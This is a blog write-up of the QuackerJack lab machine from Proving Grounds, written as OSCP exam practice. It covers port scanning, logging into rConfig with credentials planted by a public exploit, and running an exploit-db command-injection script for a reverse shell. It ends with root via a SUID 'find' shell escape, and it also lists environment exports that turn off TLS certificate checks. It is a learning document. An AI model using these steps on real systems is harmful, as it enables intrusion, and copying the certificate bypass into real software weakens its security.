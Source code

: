 ```yaml
---
layout: writeup
title: QuackerJack - Proving Grounds
date: 2024-07-23 13:32:20 +0300
description: A Writeup of the QuackerJack Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi, Python]
---
```


This is a writeup for QuackerJack, which I saw on the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). I kick things off with an nmapAutomator Full scan and check port 80 by entering the IP into firefox. I get the nmap scan back, and it looks like we'll have a lot to go through. 
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap
```

And I do see a webpage for port 80, so I begin a directory scan on that (which doesn't really return anything interesting).
![QuackerJack1.png](/assets/images/QuackerJack/QuackerJack1.png){: .center-aligned width="600px"}

As I go through the nmap output of open ports, there's a few options that don't really go anywhere either. The FTP server does allow anonymous logins, but it times out before you can access anything. I can authenticate using rcpclient, but I can't find anything especially interesting, particularly in the way of usernames or passwords. I am able to list SMB shares, but can't access anything that stands out. And then there's port 8081, where I quickly find a login page:

![QuackerJack2.png](/assets/images/QuackerJack/QuackerJack2.png){: .center-aligned width="600px"}

Trying some test logins and admin shows `Invalid password` but user shows `username not found` so we know admin is a user. At that point I search for some exploits and try a few because we know from the screenshot above that we're working with `rConfig Version 3.9.4`. There is an unauthenticated root exploit on exploit-db for that version, but I don't get it working. I also try one for [3.9.5](https://www.exploit-db.com/exploits/48878), but that doesn't immediately appear to work either. While looking around, I see a comment in[this](https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff)github page that states that the exploit for 3.9.5 does create a password for the admin user of `Testing1@`. So I try to login with the credentials `admin:Testing1@`, and it works. I hadn't realized that part of the exploit did work. So we have creds now and access to the console. 

![QuackerJack3.png](/assets/images/QuackerJack/QuackerJack3.png){: .center-aligned width="600px"}

While there is an authenticated command injection exploit on [exploit-db](https://www.exploit-db.com/exploits/48241), I unfortunately get errors on that. Apparently a couple python modules might not match a supported version: 
`urllib3 (1.26.8) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!` I could try and figure that out, but I've had some issues trying to tweak that, so I keep moving and make a note. 

After an hour or so, I decide it's time to revisit this issue, because honestly, I should know how to solve. That said, I'm not sure the best path to move forward, so I ask ChatGPT. I figure if I do this, I can take notes and learn how to do it in the future. So I do, and it turns out I need to create a python 3 virtual environment, install the supported libraries, and then deactivate later. The commands are as follows:
1. `sudo apt-get install python3-venv`
2. `python3 -m venv myenv`
3. `source myenv/bin/activate
4. `pip install requests urllib3==1.26.8 charset_normalizer==2.0.12` 
5. `python $script.py`
6. `deactivate`

And it works, and now I know! However, it did not solve my problems. I ran the script again without those errors, and I noticed a few more, all ultimately cause by an SSL issue, because we had to use https for port 8081. The error looked like this:

`(Caused by SSLError(SSLCertVerificationError(1, '[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed: self-signed certificate (_ssl.c:1006)')))` 

So I simply asked ChatGPT again, and it told me to run these commands to fix the issue. 
1. `export PYTHONWARNINGS="ignore:Unverified HTTPS request"`
2. `export REQUESTS_CA_BUNDLE=""`
3. `export CURL_CA_BUNDLE=""`

And it did, and the command finally worked:
`python3 47982.py https://192.168.242.57:8081 admin Testing1@ 192.168.45.235 80`

And I got the shell. So I checked for SUID binaries using: 
`find / -type f -perm -u=s 2>/dev/null`, and I immediately noticed `find`. A quick trip to gtfo bins says we can run this command to get privileged access, and it won't drop the privileges. 

`find . -exec /bin/sh -p \; -quit`

And it works. 

![QuackerJack4.png](/assets/images/QuackerJack/QuackerJack4.png){: .center-aligned width="600px"}

Lessons learned: I learned how to use a python virtual environment to download different libraries than the main ones, and I learned how to configure it such that it ignores SSL issues/issues with certs when using HTTPS for sites that aren't properly configured for it. 

Other takeaways: I'm annoyed with myself for using ChatGPT on this box when it's not allowed on the exam, but that said, it's exactly the kind of thing to use ChatGPT for. I didn't know that it was possible to use a temporary virtual environment like that for python, so I didn't know *to* research how to do it. I can't do it on the exam, but hey, now it's in my [OSCP Notes](https://cagrigsby.github.io/oscp_notes/)